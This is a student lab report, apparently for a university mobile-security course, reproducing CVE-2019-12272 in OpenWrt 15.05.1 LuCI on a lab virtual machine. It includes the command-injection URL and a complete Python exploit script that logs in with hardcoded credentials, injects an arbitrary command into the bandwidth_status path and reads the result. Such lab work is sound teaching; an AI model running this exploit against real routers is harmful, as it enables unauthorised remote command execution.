










# 移动互联网安全第四章实验报告  
## 移动通信安全概述  
### 实验目的  
* OpenWrt 已知漏洞利用复现  
### 实验环境  
* OpenWrt 15.05.1  
* Kali 虚拟机  
### 实验要求  
 - [x] 复现 CVE-2019-1227漏洞  
 - [x] 编写一个漏洞利用程序  
### 实验过程  
#### 实验环境搭建  
与[第一章实验环境搭建](https://github.com/CUCCS/2021-mis-public-AlinaZxy/blob/Chap01/chap01/chap01.md)过程相同，此处仅显示相关网络配置  
  
  
  
#### 漏洞复现  
先使用管理员账号登录`LuCI`，再使用浏览器访问 http://192.168.56.109/cgi-bin/luci/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt) 触发漏洞，再访问 http://192.168.56.109/cmd.txt 获取上一步命令执行的结果  
* 使用管理员账号登录`LuCI`  
  
* 触发漏洞后的访问结果  
  
#### 漏洞利用  
通过 Chrome 浏览器开发者工具的「Copy as cURL (bash)」功能，将漏洞复现请求复制为`curl 命令` ，然后通过第三方网站[将 curl 命令转换为 Python requests 代码](https://curl.trillworks.com/)，得到示例如下：  
  
```python
import requests

cookies = {
    'sysauth': '40b1e4bb1e85336cfdf3c00825eb3699',
}

headers = {
    'Connection': 'keep-alive',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Accept-Language': 'zh-CN,zh;q=0.9',
}

response = requests.get('http://192.168.56.109/cgi-bin/luci/;stok=b7c79021dc8312a640a0f4c9e9f96c35/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3Ecmd.txt)', headers=headers, cookies=cookies, verify=False)
```  
用同样的方式将登录信息转换为python代码  
  
  
```python
import requests

headers = {
    'Connection': 'keep-alive',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache',
    'Upgrade-Insecure-Requests': '1',
    'Origin': 'http://192.168.56.109',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Referer': 'http://192.168.56.109/cgi-bin/luci',
    'Accept-Language': 'zh-CN,zh;q=0.9',
}

data = {
  'luci_username': 'root',
  'luci_password': '147258'
}

response = requests.post('http://192.168.56.109/cgi-bin/luci', headers=headers, data=data, verify=False)
```  
#### python代码编写  
```python
import requests
from urllib.parse import urlparse
import sys

from requests.models import Response

class CVE_2019_12272:

    def __init__(self):
        self.host = '192.168.56.109'
        self.uname = 'root'
        self.upass = '147258'
        self.stok = ''
        self.cmd = ''
        self.cookies = ''
        self.headers = {
            'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
            'Accept-Language': 'en-US,en;q=0.5',
            'Referer': 'http://{host}/cgi-bin/luci',
            'Content-Type': 'application/x-www-form-urlencoded',
            'Connection': 'keep-alive',
            'Upgrade-Insecure-Requests': '1',
        }


    def login(self):
        data = {
            'luci_username': '{uname}'.format(uname=self.uname),
            'luci_password': '{upass}'.format(upass=self.upass)
        }
        response = requests.post('http://{host}/cgi-bin/luci'.format(host=self.host), headers=self.headers, cookies=self.cookies, data=data, allow_redirects=False)
        location = response.headers['Location']
        self.stok = urlparse(location).params
        self.cookies = response.cookies

    def shell(self, cmd):
        url = 'http://{host}/cgi-bin/luci/;{stok}/admin/status/realtime/bandwidth_status/eth0$({cmd}%3ecmd.txt)'.format(host=self.host, stok=self.stok, cmd=cmd)
        response = requests.get(url, headers=self.headers, cookies=self.cookies)

    def view(self):
        url = 'http://{host}/cmd.txt'.format(host=self.host)
        response = requests.get(url, headers=self.headers)
        print(response.text)

if __name__ == "__main__":
    exp = CVE_2019_12272()
    exp.login()
    exp.shell(sys.argv[1])
    exp.view()
```  
  
* 其他更高端的复现代码待开发...  

### 实验问题与解决  
1. Windows 10 自动更新后莫名其妙断开了虚拟机的Host-Only网络  
  
错误原因：适配器还健在，但虚拟机无法打开，怀疑是更新出了什么乱七八糟的bug:joy:  
解决方案：重新配置虚拟机的虚拟网络，重新配置IP地址与网络掩码  

#### 参考资料  
[移动互联网安全第四章实验](https://c4pr1c3.gitee.io/cuc-mis/chap0x04/cve-2019-12272.html)  
[移动互联网安全第四章教学视频](https://www.bilibili.com/video/BV1rr4y1A7nz?t=268&p=100)  
[VirtualBox网络之仅主机(Host-Only)网络](https://blog.csdn.net/dkfajsldfsdfsd/article/details/79441874)  
